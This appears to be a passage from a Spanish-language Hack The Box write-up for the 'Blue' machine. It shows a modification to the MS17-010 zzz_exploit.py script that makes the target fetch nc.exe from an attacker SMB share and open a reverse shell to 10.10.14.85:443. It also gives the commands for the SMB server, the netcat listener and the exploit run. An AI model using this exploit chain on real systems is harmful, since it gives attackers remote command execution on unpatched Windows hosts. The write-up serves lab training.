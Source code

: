 luego de esto buscaremos la siguiente linea y modificaremos esto:

```console
def smb_pwn(conn, arch):
        smbConn = conn.get_smbconnection()

        #print('creating file c:\\pwned.txt on the target')
        #tid2 = smbConn.connectTree('C$')
        #fid2 = smbConn.createFile(tid2, '/pwned.txt')
        #smbConn.closeFile(tid2, fid2)
        #smbConn.disconnectTree(tid2)

        #smb_send_file(smbConn, sys.argv[0], 'C', '/exploit.py')
        service_exec(conn, r'cmd /c \\10.10.14.85\smb\nc.exe -e cmd 10.10.14.85 443')
        # Note: there are many methods to get shell over SMB admin session
        # a simple method to get shell (but easily to be detected by AV) is
        # executing binary generated by "msfvenom -f exe-service ..."

```

Lo que haremos sera crear un servidor smb en la maquina atacante con netcat y mandarlo llamar, copiaremos lo siguiente:

```console
cp /usr/share/windows-resources/binaries/nc.exe .
```

Una vez esto ejecutamos lo siguiente, para crear nuestro servidor smb:

```console
impacket-smbserver smb $(pwd)
```

Copiamos netcat donde ejecutaremos netcat:
```console
cp /usr/share/windows-resources/binaries/nc.exe .
```
Abrimos netcat:

```console
rlwrap nc -lvnp 443
```

y ejecutamos el exploit:

```console
python2 MS17-010/zzz_exploit.py blue.htb samr
```

![exploit](/assets/img/posts/HTB/blue/10.png)

!Happy Hacking!